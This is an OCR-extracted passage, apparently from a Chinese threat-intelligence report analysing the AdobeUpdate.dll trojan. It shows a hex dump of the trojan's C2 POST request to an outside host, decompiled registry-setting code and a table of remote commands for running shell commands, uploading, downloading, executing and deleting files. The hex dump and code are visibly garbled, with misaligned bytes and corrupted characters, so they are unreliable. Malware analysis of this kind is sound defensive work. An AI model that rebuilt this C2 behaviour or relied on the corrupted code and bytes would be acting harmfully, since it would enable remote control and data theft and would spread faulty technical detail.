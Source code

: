 <html><body><table><tr><td>001EC568 504F 53 001EC578 4F 55 77 001EC588 37 39 39 001EC598 48</td><td>54 20 2F 32 39 30 38 39 38 52 56</td><td>3F 39 30 3D 78 39 2D 4D 26 55 57 52 5F 77</td><td>52 26 43 38 39 75 25 26 46 3D</td><td>2E 48 4F 77 39 36 37 5</td><td></td><td>POST/?90=R&C.H0 0Uw290x9-89u%w49 799898M&UW&F=67T</td></tr><tr><td>001EC5A8 38 37 001EC5B8</td><td>77 32 2θ</td><td>39 30 78 39 48 54 54 5θ</td><td>2D 38 39 2F 31 2E</td><td>39 37 39 3D 55 31 BD</td><td>39 38 39 55 3D 52 BA 63</td><td>HGGGRUR_W4979989 87w290x9-89=UU=R GKJHTTP/1.1..AC</td></tr><tr><td>001EC5C8</td><td>63 65 70 74</td><td>3A 2θ 2A 2F 2A</td><td>D BA 6F</td><td>6E 74 65</td><td></td><td>cept:*/*..Conte</td></tr><tr><td>001EC5D8</td><td>6E 2D 4C</td><td>65 6E 67 74</td><td>68 3A 20</td><td>31 33 33</td><td>48 32</td><td>nt-Length: 13342</td></tr><tr><td>001EC5E8</td><td>34 BA 55</td><td>73 65 72 2D</td><td>41 67 65</td><td>6E 74 3A</td><td>2θ 4D</td><td>4..User-Agent:M</td></tr><tr><td>001EC5F8 6F</td><td>7A 69 6C 6C</td><td>61 2F 35 2E</td><td>30 2θ 28</td><td>57 69</td><td>6E 64</td><td>ozilla/5.θ(Wind</td></tr><tr><td>001EC608 6F</td><td>77 73 2θ 4E</td><td>5 2θ 36 2E</td><td>33 3B 2θ</td><td>57 4F 57</td><td>36</td><td>0WS NT 6.3; W0W6</td></tr><tr><td>001EC618</td><td>3B 2θ 72 76</td><td>32 2E</td><td>30 29 20</td><td>65 63</td><td>6B</td><td>4；ru:42.0) Geck</td></tr><tr><td>001EC628 6F</td><td>2F 32 30 31</td><td>30 30 31 30</td><td>31 2θ 46</td><td>69 72</td><td>65 66</td><td>0/20100101 Firef</td></tr><tr><td>001EC638 6F</td><td>78 2F 34 32</td><td>2E 30 D BA</td><td>43 6F 6E</td><td>74 65</td><td>6E</td><td>0x/42.θ..Content</td></tr><tr><td>001EC648 2D</td><td>54 79 70 65</td><td>3A 2θ 61 70</td><td>70 6C 69</td><td>63 61</td><td>74 69</td><td>-Type: applicati</td></tr><tr><td>001EC658 6F</td><td>6E 2F 6F 63</td><td>74 65 74 2D</td><td>73 74 72</td><td>65 61</td><td>6D GD</td><td>on/octet-stream.</td></tr><tr><td>001EC668 BA</td><td>8 6F 73</td><td>3A 2θ 39 38</td><td>2E 66 66</td><td>61 6B</td><td>33 2E</td><td>.Host: 98.ffak3.</td></tr><tr><td>001EC678 61</td><td>70 70 6C 69</td><td>6E 7A 69 2E</td><td>63 6F 6D</td><td>BD BA</td><td>6F</td><td>applinzi.com..Co</td></tr><tr><td>001EC688 6E</td><td>6E 65 63</td><td>69 6F 6E</td><td>3A 2θ 65</td><td>65 70</td><td>2D Lt</td><td>nnection: Keep-A</td></tr><tr><td>001EC698 6C</td><td>69 76 65 BD</td><td>GA 61</td><td>63 68 65</td><td>2D 43 6F</td><td>6E</td><td>liue..Cache-Cont</td></tr><tr><td>001EC6A8</td><td>72 6F 6C 3A 20</td><td>6E 6F 2D</td><td>63 61 63</td><td>68 65 GD</td><td>GA D</td><td>rol: no-cache</td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr></table></body></html>  

接着设置注册表FirstExec标志。  

GdiGetBatchLimit();   
v0=ascii_decrypt（"SOFTWARE\\MyApp|");   
RegCreateKeyExA(HKEY_cURRENT_USER,vO,O,O,O,OxFO03Fu,O,&phkResult,&dwDisposition）;   
v1=strlen（ascii_decrypt("no|"));   
v2 =ascii_decrypt(nol) v3 = ascii decrypt("FirstExec|");   
RegSetValueExA(phkResult,V3,0,1u,(const BYTE \*）v2，v1）;   
return RegCloseKey(phkResult);  

AdobeUpdate.dll木马实现了丰富的命令控制指令，其通过访问控制域名获取包含有控制命令的文件，并在本地解密解析后执行。  

# 360威胁情报中心  

![](https://cdn-mineru.openxlab.org.cn/extract/13c01bfe-6e47-4e6d-8bab-fed5625c5a84/6d447d61281ff153e40b0f277cf97005601b964cc65a816d641b072b4d37ae9b.jpg)  

其指令以\*\*\*和对应指令数字组成，以下为控制指令功能列表。  

<html><body><table><tr><td>***1</td><td>执行cmd命令</td></tr><tr><td>***2</td><td>更新AppName配置</td></tr><tr><td>***3</td><td>文件上传</td></tr><tr><td>***4</td><td>文件下载</td></tr><tr><td>***5</td><td>更新控制域名</td></tr><tr><td>***7</td><td>上传文档文件列表信息</td></tr><tr><td>***8</td><td>执行dll文件或exe</td></tr><tr><td>***9</td><td>文件删除</td></tr><tr><td>***10</td><td>指定文件列表信息上传</td></tr><tr><td>***11</td><td>保留</td></tr></table></body></html>  
